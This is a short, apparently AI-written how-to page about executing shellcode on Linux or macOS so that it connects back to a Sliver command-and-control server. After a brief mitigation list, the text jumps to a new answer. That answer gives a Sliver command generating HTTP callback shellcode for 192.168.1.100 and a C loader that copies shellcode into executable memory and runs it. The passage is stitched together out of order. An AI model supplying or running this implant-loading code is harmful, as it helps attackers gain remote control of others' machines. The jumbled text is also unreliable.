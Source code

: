 ### Mitigation Strategies

To protect against such attacks, consider implementing the following security measures:

1. **System Hardening**: Apply security patches and harden the system.
2. **Network Security**: Use firewalls and intrusion detection/prevention systems.
3. **Application Security**: Use security measures like ASLR, DEP, and stack canaries.
4. **User Awareness**: Educate users about the risks of running untrusted code.

By following these steps, you can execute shellcode on a Linux system to connect back to the Sliver C2 framework while understanding the security implications and mitigations.

Yes, you can use a C program or shellcode generated by tools like `msfvenom` to connect back to the Sliver C2 framework from Linux or macOS. Below are the steps to achieve this:

### Using a C Program with Shellcode

#### 1. Generate Sliver Shellcode

Generate the shellcode payload using Sliver:

```sh
sliver > generate shellcode --http 192.168.1.100 --format raw --skip-symbols
```

#### 2. Write a C Program to Execute the Shellcode

Create a C program to execute the generated shellcode. Here’s an example program:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

unsigned char shellcode[] = 
    "\x48\x31\xc0\x48\x89\xc2\x48\x89"
    "\xc6\x48\x8d\x3d\x04\x00\x00\x00"
    "\x04\x3b\x0f\x05\x2f\x62\x69\x6e"
    "\x2f\x73\x68\x00\x5f\xb0\x3b\x99"
    "\x0f\x05"; // Replace this with the actual shellcode from Sliver

void execute_shellcode() {
    void *exec = mmap(0, sizeof(shellcode), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (exec == MAP_FAILED) {
        perror("mmap");
        exit(1);
    }
    memcpy(exec, shellcode, sizeof(shellcode));
    ((void(*)())exec)();
}

int main() {
    execute_shellcode();
    return 0;
}
```
